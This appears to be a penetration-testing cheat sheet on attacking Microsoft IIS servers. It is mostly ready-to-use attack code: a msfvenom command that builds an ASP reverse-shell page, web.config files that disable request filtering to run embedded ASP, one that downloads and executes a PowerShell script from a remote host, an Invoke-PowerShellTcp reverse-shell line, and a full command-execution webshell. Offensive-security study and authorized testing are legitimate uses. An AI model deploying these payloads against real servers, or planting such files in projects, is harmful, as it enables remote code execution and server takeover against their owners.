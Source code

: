 ## IIS - Microsoft WebServer

### Reverse Shell Page

Try aspx if asp doesn't work

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f asp -o reverse_tcp_8000.asp
```

### Web.config Files

#### Test File

Use this to check if you can run executable code in the web.config file, it should print '3':

```powershell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

src: https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/

#### Remote Powershell Script

1. Upload this code as web.config

   ```powershell
   <?xml version="1.0" encoding="UTF-8"?>
   <configuration>
      <system.webServer>
         <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
         </handlers>
         <security>
            <requestFiltering>
               <fileExtensions>
                  <remove fileExtension=".config" />
               </fileExtensions>
               <hiddenSegments>
                  <remove segment="web.config" />
               </hiddenSegments>
            </requestFiltering>
         </security>
      </system.webServer>
   </configuration>
   <!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
   <%
   Set obj = CreateObject("WScript.Shell")
   obj.Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.37/shell.ps1')")
   %>
   -->
   ```

2. Host a Powershell script on a web server like Invoke-PowerShellTcp to execute the script, but you need to add a line at the end to execute the function:

   ```powershell
   <SNIPPED>
   	catch
       {
           Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
           Write-Error $_
       }
   }
   
   ### Added code to execute function
   Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 8000
   ```

#### Command Webshell

Usage : http://domain.com/path/to/web.config?cmd=dir, or just visit the page and use the form on it to run a command.

```powershell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
 
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's IP:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
<b>Command Output:</b>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
```

src: https://gist.github.com/gaitonde-bhau/8e1e46f005415a5bf20dcbd28129534a

### Other Ideas

https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/

https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/